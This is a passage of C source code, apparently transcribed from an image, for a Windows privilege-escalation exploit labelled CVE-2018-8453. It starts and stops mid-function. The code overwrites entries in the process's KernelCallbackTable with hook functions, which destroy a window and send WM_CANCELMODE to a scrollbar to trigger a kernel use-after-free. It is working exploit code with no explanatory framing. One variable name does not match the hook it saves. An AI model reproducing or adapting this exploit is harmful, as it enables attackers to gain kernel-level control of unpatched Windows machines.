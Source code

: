 ```
        ShowError("CreateWindowEx", GetLastError());
        goto exit;
    }
 
exit:
    return bRet;
}
 
BOOL HookFunc_CVE_2018_8453()
{
    BOOL bRet = TRUE;
 
    ULONG64 ulKernelCallBackTable = *(PULONG64)(GetPEB() + 0x58);
 
    DWORD dwOldProtect = 0;
 
    if (!VirtualProtect((PVOID)ulKernelCallBackTable, PAGE_SIZE, PAGE_READWRITE, &dwOldProtect))
    {
        bRet = FALSE;
        ShowError("VirtualProtect", GetLastError());
        goto exit;
    }
 
    org_fnDWORD = (pFunc)*(PULONG64)(ulKernelCallBackTable + 0x8 * 0x2);
    *(PULONG64)(ulKernelCallBackTable + 0x8 * 0x2) = (ULONG64)My_fnDWORD;
 
    org_xxxClientAllocWindowClassExtraBytes = (pFunc)*(PULONG64)(ulKernelCallBackTable + 0x8 * 0x80);
    *(PULONG64)(ulKernelCallBackTable + 0x8 * 0x80) = (ULONG64)My_xxxClientFreeWindowClassExtraBytes;
 
    if (!VirtualProtect((PVOID)ulKernelCallBackTable, PAGE_SIZE, dwOldProtect, &dwOldProtect))
    {
        bRet = FALSE;
        ShowError("VirtualProtect", GetLastError());
        goto exit;
    }
 
exit:
    return bRet;
}
 
LONG64 My_fnDWORD(PVOID arg0)
{
    if (g_Flag_2018_8453 && *(PDWORD)arg0)
    {
        g_Flag_2018_8453 = FALSE;
        DestroyWindow(Window);
    }
 
    if (*((PULONG64)arg0 + 1) == 0x70)
    {
        SendMessage(New_ScrollBar, WM_CANCELMODE, 0, 0);
    }
 
    return org_fnDWORD(arg0);
}
 
LONG64 My_xxxClientFreeWindowClassExtraBytes(PVOID arg0)
{
    if ((*(HWND*)*(HWND*)arg0) == Window)
    {
```